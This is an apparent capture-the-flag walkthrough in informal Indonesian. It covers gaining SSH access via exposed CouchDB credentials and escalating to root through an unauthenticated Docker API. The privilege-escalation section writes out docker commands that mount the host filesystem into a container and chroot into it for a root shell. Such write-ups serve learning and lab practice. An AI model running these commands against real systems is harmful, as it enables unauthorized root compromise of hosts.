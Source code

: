 # boot:
1. scan nmap ada ssh ama couch db aja
2. di fuzz pake gobuster bermasalah pake ffuf aja -> cuman dapet beberapa
3. cari gugel aja misal What is the path to list all databases in the web browser of the database management system?
4. ganti akhiran jadi of the couch db -> nanti nemu path nya /_utils /_alldb atau apa gitu
5. ke utils secret nanti nemu creds dah -> ssh aja pake itu


# pe: 
1. ini vuln nya -> https://www.exploit-db.com/exploits/42356 ikutin aja command nya
2. docker -H tcp://<ip>:<port> run --rm -ti -v /:/mnt alpine chroot /mnt /bin/sh
3. atau kalau mau jadi root aja tanpa bisa pindah pindah kayak yg di bash history
4. docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine ->  dah jadi root
5. klaim root  -> pake step 2 aja
